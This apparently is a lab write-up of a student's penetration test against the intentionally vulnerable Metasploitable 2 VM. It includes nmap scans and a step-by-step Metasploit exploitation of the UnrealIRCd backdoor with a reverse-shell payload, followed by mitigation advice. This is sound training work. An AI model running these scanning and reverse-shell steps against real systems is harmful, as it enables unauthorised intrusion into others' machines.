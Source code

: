 # Red Team Lab – Penetration Testing Metasploitable 2

## 1. Introduction
This project demonstrates a full penetration testing lifecycle against an intentionally vulnerable machine (Metasploitable 2) using Kali Linux as the attacker system. 

The goal was to simulate a real red team assessment by:
- Discovering open services
- Enumerating possible vulnerabilities
- Exploiting one of them to gain access
- Documenting findings as if reporting to a client

**Tools Used:**
- Kali Linux (attacker VM)
- Metasploitable 2 (target VM)
- Nmap (network scanner)
- Metasploit Framework (exploit toolkit)
- Netcat, FTP, and other Linux tools


## 2. Lab Setup

- VirtualBox was used to run two machines:
  - **Attacker**: Kali Linux
  - **Target**: Metasploitable 2

- Both machines were placed on the same **Host-Only Network** so they could communicate directly without internet.

- Verified connectivity:
  ```bash
  ping 192.168.56.102
 

## 3. Reconnaissance

First, I scanned the target to discover open ports and services.

### Full TCP Port Scan
```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102

Result:

Found multiple open ports including FTP (21), SSH (22), Telnet (23), SMTP (25), HTTP (80), MySQL (3306), PostgreSQL (5432), VNC (5900), and IRC (6667) etc

These services represent possible attack entry points. 
![Nmap Scan](Screenshots/nmap_scan_results.png)

## 4. Enumeration

Next, I ran a version detection scan on the discovered ports:

    ```bash
    nmap -sV -sC -p 21,22,23,25,53,80,111,139,445,512,513,514,1099,1524,2049,2121,3306,3632,5432,5900,6000,6667,6697,8009,8180,8787,39598,40965,49997,5250 -oA nmap_enum 192.168.56.102

![Nmap Enum Scan](Screenshots/nmap_enum_results1.png)
![Nmap Enum Scan](Screenshots/nmap_enum_results2.png)
![Nmap Enum Scan](Screenshots/nmap_enum_results3.png)


## 5. Exploitation

I chose to target the **UnrealIRCd backdoor** because it is a well-known, easily exploitable vulnerability (CVE-2010-2075). This service was running on port 6667.

### Steps:
1. Launched Metasploit:
   ```bash
   msfconsole

2. selected the exploit module:
   ```bash
   exploit/unix/irc/unreal_ircd_3281_backdoor
3. Set the target host
   ```bash
   set RHOST 192.168.56.102
4. Set payload (reverse shell):
   ```bash
   set PAYLOAD cmd/unix/reverse
5. Set local host
   ```bash
   set LHOST 192.168.56.101
6. Ran the exploit
   ```bash
   exploit

Result: Successfully gained a remote shell on a Metasploitable machine
![Exploit successful](Screenshots/successfully_opened_shell_results.png)

6. Post-Exploit

After gaining shell access, I confirmed control over the target system.

```bash
whoami
name -a
pwd
ls -la

![Post Exploit](Screenshots/post_exploit_results.png)

## 7. Mitigation

The vulnerabilities exploited here are well-known and easily fixed:
- **UnrealIRCd Backdoor**: Use updated versions of IRC software and verify integrity of downloads.
- **vsFTPd 2.3.4**: Upgrade to a secure version without backdoor.
- **General Advice**:
  - Regularly patch and update software.
  - Disable unnecessary services.
  - Use firewalls to restrict access.
  - Monitor for unusual traffic.


## 8. Lessons Learned

From this red team exercise, I learned:
- How to set up a penetration testing lab with Kali + Metasploitable
- How to scan and enumerate services using Nmap
- How to identify vulnerable services by version numbers
- How to use Metasploit to exploit a vulnerability and gain access
- The importance of proper patch management and secure configurations

This project reflects a real-world penetration testing workflow, even though the target machine was intentionally vulnerable. It demonstrates the value of combining reconnaissance, exploitation, and reporting to simulate a professional red team engagement.
